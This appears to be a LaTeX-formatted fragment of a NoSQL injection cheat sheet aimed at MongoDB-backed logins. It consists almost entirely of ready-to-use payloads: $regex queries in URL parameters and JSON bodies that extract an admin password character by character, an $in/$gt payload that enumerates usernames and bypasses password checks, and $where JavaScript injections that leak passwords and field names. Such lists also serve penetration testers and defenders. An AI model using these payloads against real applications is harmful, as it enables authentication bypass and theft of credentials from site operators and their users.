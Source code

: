 \documentclass[12pt]{article}
\begin{document}
\subsubsection{URL Parameter}

\begin{lstlisting}
# Extract password character by character
user=admin&password[$regex]=^m
user=admin&password[$regex]=^md
user=admin&password[$regex]=^mdp
user=admin&password[$regex]=^mdp.
user=admin&password[$regex]=^mdp.s
\end{lstlisting}

\subsubsection{JSON Body}

\begin{lstlisting}
{"username": "admin", "password": {"$regex": "^a"}}
{"username": "admin", "password": {"$regex": "^ad"}}
{"username": "admin", "password": {"$regex": "^adm"}}
{"username": "admin", "password": {"$regex": "^admi"}}
\end{lstlisting}

\subsection{Using \$in for Enumeration}

\begin{lstlisting}
{"username": {"$in": ["Admin", "4dm1n", "admin", "root", "administrator"]}, "password": {"$gt": ""}}
\end{lstlisting}

\subsection{Using \$where for JavaScript Injection}

\begin{lstlisting}
# Extract first character of password
{"$where": "this.username == 'admin' && this.password[0] == 'a'"}

# Extract password using match()
{"$where": "this.username == 'admin' && this.password.match(/^a/)"}
\end{lstlisting}


\subsection{Extracting Field Names}

\begin{lstlisting}
# Extract first field name character by character
{"$where": "Object.keys(this)[0].match('^.{0}a.*')"}

# Extract specific field index
{"$where": "Object.keys(this)[1].match('^password.*')"}
\end{lstlisting}
\end{document}
